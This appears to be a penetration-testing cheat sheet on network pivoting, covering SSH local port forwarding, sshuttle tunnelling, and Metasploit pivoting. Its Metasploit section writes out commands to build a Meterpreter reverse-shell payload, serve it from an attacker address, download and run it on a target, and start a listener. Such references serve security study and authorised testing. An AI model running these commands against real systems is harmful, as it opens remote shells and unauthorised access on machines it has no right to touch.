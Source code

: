 ### SSH Pivoting


# Local port forwarding
# Local port opened on 127.0.0.1 (bind)
# -N == no command executed (only ssh tunnel)
$ ssh user@pivoting_machine -L [bind_address:]local_port:destination_host:destination_hostport -N

### sshuttle


# Transparent proxy over SSH

# Forwarding traffic through the pivot
# It will then auto create necessary iptables rules
sshuttle -r user@pivoting_machine x.x.x.x/24

# You can also let sshuttle detect networks based on the target
# -x == exclude some network to not transmit over the tunnel
sshuttle -vNr user@pivoting_machine -x x.x.x.x.x/24

### Metasploit pivoting


# Reverse Shell generation
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.2.149 LPORT=8080 -f elf --platform linux --arch x64 > reverse.elf
$ python -m http.server --bind 192.168.2.149
$ wget http://192.168.2.149:8000/reverse.elf
$ chmod u+x reverse.elf

# Setup listener
$ msfconsole -q
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > run
